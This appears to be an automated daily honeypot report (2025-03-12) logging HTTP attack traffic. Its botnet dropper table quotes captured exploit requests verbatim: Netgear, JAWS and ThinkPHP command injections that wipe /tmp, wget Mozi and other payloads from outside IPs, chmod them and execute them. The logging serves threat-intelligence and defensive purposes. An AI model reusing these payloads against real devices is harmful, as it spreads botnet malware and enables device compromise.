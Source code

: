 ```yaml
---
title: "Report: 2025-03-12 "
date: 2025-03-12
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-12
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Australia          |
| US               | Dubai              |
| NL               |                    |
| NL               |                    |
| BR               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                 |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 117.206.9.29    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.206.9.29:57365/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                             |
| 42.226.73.22    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.226.73.22:47695/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                             |
| 190.182.251.167 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                   |
| 117.251.191.133 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                   |
| 187.142.40.209  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                        |
| 204.76.203.18   | GET /wget.sh HTTP/1.1                                                                                                                                                                                                                   |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 61.130.11.82    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 123.157.136.106 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 121.22.35.6     | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 188.166.227.239 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 183.129.247.246 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
